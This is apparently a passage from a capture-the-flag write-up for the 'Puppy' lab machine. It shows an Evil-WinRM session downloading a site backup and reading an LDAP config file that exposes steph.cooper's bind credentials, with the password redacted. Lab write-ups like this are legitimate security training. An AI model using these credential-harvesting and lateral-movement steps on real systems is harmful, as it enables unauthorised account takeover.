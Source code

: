 ## root.txt
### adam.silver -> steph.cooper
Browsing the root directory we find a `Backups` folder. We can download the site backup to our machine
```bash
*Evil-WinRM* PS C:\Backups> ls


    Directory: C:\Backups


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          3/8/2025   8:22 AM        4639546 site-backup-2024-12-30.zip


*Evil-WinRM* PS C:\Backups> download site-backup-2024-12-30.zip /home/kali/puppy.htb/site-backup.zip
```

Inspecting the backup reveals credentials in the `nms-auth-config.xml` file
```bash
┌──(kali@kali)-[~/puppy.htb]
└─$ unzip site-backup.zip 

┌──(kali@kali)-[~/puppy.htb]
└─$ cd puppy 

┌──(kali@kali)-[~/puppy.htb/puppy]
└─$ ls
assets  images  index.html  nms-auth-config.xml.bak

┌──(kali@kali)-[~/puppy.htb/puppy]
└─$ cat nms-auth-config.xml.bak 
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<ldap-config>
    <server>
        <host>DC.PUPPY.HTB</host>
        <port>389</port>
        <base-dn>dc=PUPPY,dc=HTB</base-dn>
        <bind-dn>cn=steph.cooper,dc=puppy,dc=htb</bind-dn>
        <bind-password><PASSWORD_REDACTED></bind-password>
    </server>
    <user-attributes>
        <attribute name="username" ldap-attribute="uid" />
        <attribute name="firstName" ldap-attribute="givenName" />
        <attribute name="lastName" ldap-attribute="sn" />
        <attribute name="email" ldap-attribute="mail" />
    </user-attributes>
    <group-attributes>
        <attribute name="groupName" ldap-attribute="cn" />
        <attribute name="groupMember" ldap-attribute="member" />
    </group-attributes>
    <search-filter>
        <filter>(&(objectClass=person)(uid=%s))</filter>
    </search-filter>
</ldap-config>
```
